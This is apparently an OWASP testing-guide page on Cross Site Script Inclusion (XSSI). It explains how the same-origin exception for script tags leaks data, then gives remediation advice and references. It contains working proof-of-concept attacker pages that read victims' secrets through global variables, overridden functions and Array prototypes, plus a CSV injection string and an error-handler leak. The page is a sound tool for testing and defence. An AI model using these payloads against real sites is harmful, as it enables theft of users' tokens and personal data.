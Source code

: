 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and XSSI uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 - [https://tools.ietf.org/html/rfc6454] [1]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <script> HTML tag inclusions. This exception is necessary as without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website with <script> tags, the resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is achieved in most cases using JavaScript (JS), however, the script source doesn't have to be a JS file, be served with `text/javascript` or `.js` extension. Some browsers are lenient and only block if it is served with an image type (`image/`), a video type (`video/`), an audio (`audio/*`) type, or `text/csv`\[[10]].

Old browser version vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <script> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (eg JSON) in some cases. If you want to learn more about these please read  [Identifier based XSSI attacks MBSD Whitepaper](https://www.mbsd.jp/Whitepaper/xssi.pdf).
  
The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

`api.js` contents:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following:

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable and displayed using innerHTML. 

## Example Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

`index.html` contents:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

`api.js` contents:
```
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier based XSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the `\"",$$$=function(){/*` string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present standardized Javascript error messages like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task a purpose built Burp proxy plugin by Veit Hailperin can be used [2]. Make sure to check other filetypes in addition to JavaScript: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript:
  - Using global variables [example](#example-leak-sensitive-data-via-global-variables)
  - Overwriting global functions and parameters [example](#example-leak-sensitive-data-via-global-function-parameters)
  - Using an old version of browser and exploiting JavaScript runtime error leak vulnerabilities [example](#example-leak-sensitive-data-via-javascript-runtime-errors)
  - Data leak via prototype chaining by using the "this" keyword. In JavaScript "this" is dynamically scoped which means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from Sebastian Leike's page [4] the sensitive data is stored in an Array. The tester/attacker can override Array.prototype.forEach with an attacker-controlled function. If some code calls the forEach function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with "this" pointing to the object that contains the sensitive data.

`javascript.js`
```
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:
```
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# Remediation

1. Don't put sensitive user data in Javascript responses and avoid JSONP if possible. 
2. Use correct Content-Type headers with appropriate charset defined.
3. Use the "X-Content-Type-Options: nosniff" in the response header which causes browsers to reject CSV and other data with non-script MIME type designation when they are loaded as JavaScript.
4. Use Anti-Cross-Site Request Forgery Tokens.
5. Developers can either include an unparsable content to the beginning of the response (eg. an uncatchable exception) to cause runtime compile errors. This approach assumes that runtime errors cannot be leaked via browser vulnerabilities.
6. Strict referrer checking (error-prone).
7. Dynamic inline scripts are not prone to XSSI however will cause issues if Content Security Policy (CSP) is used or planned to be used.
8. Insert additional characters (/\*\*/ or //) at the beginning of JSON responses (Content-Type: application/json).  This will cause parsing errors in JSON.parse unable to get the data extracted from the response.  

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
